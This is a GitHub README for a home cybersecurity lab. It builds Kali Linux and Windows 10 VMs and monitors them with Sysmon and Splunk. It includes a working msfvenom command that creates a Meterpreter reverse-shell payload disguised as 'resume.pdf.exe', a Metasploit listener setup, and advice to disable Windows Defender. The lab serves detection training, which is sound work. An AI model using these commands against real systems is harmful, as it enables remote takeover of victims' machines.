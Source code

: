 # -SOC-Home-Lab-Attack-Defense-Simulation-
This project demonstrates the setup of a home lab environment for cybersecurity testing, including an attack machine (Kali Linux), a target machine (Windows 10 VM), and a logging system (Splunk) to monitor malicious activities.The project involves:

Setting up virtual machines
Installing and configuring Sysmon for log collection
Deploying malware using msfvenom
Monitoring attacks using Splunk


🔧Prerequisites

Requirement	Description
RAM	At least 16GB (to run multiple VMs)
Virtualization Software	VMware Workstation or VirtualBox
Operating Systems	ISO files for Windows 10 and Kali Linux
Logging Tools	Splunk and Sysmon setup files
Internet Connection	Required for downloading and configuring tools

Network Topology

Below is a simple network topology illustrating the setup:
   [Kali Linux (Attacker)]  --->  [Windows 10 VM (Target)]  --->  [Splunk (Log Monitoring)]

The Kali Linux machine attacks the Windows VM, and logs are collected by Splunk for analysis.


Step 1: Setting Up Virtual Machines

1.1 Install Kali Linux (Attacker Machine)
Download Kali Linux ISO from Kali Official Website.
Create a new VM in VMware/VirtualBox and install Kali Linux.
Update and upgrade Kali:
sudo apt update && sudo apt upgrade -y

1.2 Install Windows 10 (Target Machine)
Download Windows 10 ISO from Microsoft's website.
Create a new VM and install Windows 10.
Ensure networking is enabled for communication between VMs.


Step 2: Installing Splunk for Log Monitoring

Download Splunk Free from Splunk Website.
Install Splunk on your Windows 10 VM.
Start Splunk and log in with admin credentials.
Enable data collection for monitoring logs.

Step 3: Installing Sysmon on Windows 10

Download Sysmon from Microsoft Sysinternals.
Download a pre-configured sysmonconfig.xml from Sysmon Modular.
Open PowerShell as Administrator and run:
cd "C:\Users\Downloads\sysmon"
.\sysmon64.exe -i sysmonconfig.xml
Verify Sysmon is running:
Get-Process sysmon64


Step 4: Generating Malware with msfvenom

On Kali Linux, generate a malicious executable:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe

This creates resume.pdf.exe, which acts as our payload.


Step 5: Setting Up a Metasploit Listener

Open Metasploit on Kali:
msfconsole
Configure the listener:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <Attacker_IP>
set LPORT 4444
exploit


Deploy resume.pdf.exe on Windows 10 and execute it.

If successful, you gain a Meterpreter session:
meterpreter > sysinfo

Step 6: Monitoring Logs with Splunk

Open Splunk and search for unauthorized activity:
index=main sourcetype=WinEventLog:Security
Identify anomalies related to unauthorized access.

Create alerts to detect suspicious behavior.
🔍Troubleshooting
1. Metasploit Handler Not Receiving a Session
Ensure Windows Defender is disabled to prevent blocking the payload.
Double-check LHOST and LPORT settings in both msfvenom and msfconsole.
Run the payload on Windows as Administrator.

3. Splunk Not Logging Events
Verify Sysmon is correctly installed and running.
Ensure Windows Event Logging is enabled in Splunk.
Restart Splunk and recheck the event index.

🎯Next Steps & Future Improvements
Integrate ELK Stack for enhanced log analysis.
Automate attack execution using Python scripts.
Implement Wazuh SIEM for better threat detection.
How to Contribute
Interested in improving this project? Contributions are welcome!

Fork the repository.
Create a new branch with your improvements.
Submit a pull request for review

Conclusion
This project demonstrates how to:
Set up a cybersecurity home lab
Deploy and detect malware
Use Splunk for threat monitoring
